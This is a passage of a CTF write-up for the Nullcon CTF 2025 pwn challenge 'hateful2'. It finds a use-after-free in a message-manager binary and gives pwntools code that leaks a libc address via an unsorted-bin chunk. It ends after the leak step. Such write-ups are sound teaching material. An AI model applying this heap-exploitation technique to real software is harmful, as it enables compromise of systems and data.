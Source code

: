 ```yaml
---
title: hateful2
description: |
    You hate your Boss??? You wanna just trash talk him but you are afraid he would fire you???
    Dont worry we got you! send us the message you want to send him and we will take care of everything for you!
    try our new platform now! (the old one was sadly broken)
categories: ["ctf", "Nullcon CTF 2025"]
tags: ["pwn"]
media_subpath: "/assets/posts/2025/nullcon/hateful2"
---
```


We have a program with multiple features:

![](01.png)

A note informing us we can send 16 messages:

![](02.png)

We can add a message:

![](03.png)

Edit a message:

![](04.png)

View a message:

![](05.png)

Delete a message (notice the pointer does not get set to NULL after freeing):

![](06.png)

We immediately notice a use after free. First we use it to get a libc leak. Since we can allocate whatever size we want, we can get a chunk
into the unsorted bins, because the first one contains a pointer to the arena. We can do this by allocating a large amount (like 0x500), 
allocating a small chunk (like 0x8) to prevent consolidating, freeing the big chunk and reading from it.

```py
add(0, b"A" * 0x500)
add(1, b"A" * 8)
remove(0)
libc_leak = u64(view(0).ljust(8, b"\x00"))
log.success(f"{libc_leak = :#0x}")
libc_base = libc_leak - 0x1d2cc0
log.success(f"{libc_base = :#0x}")
```
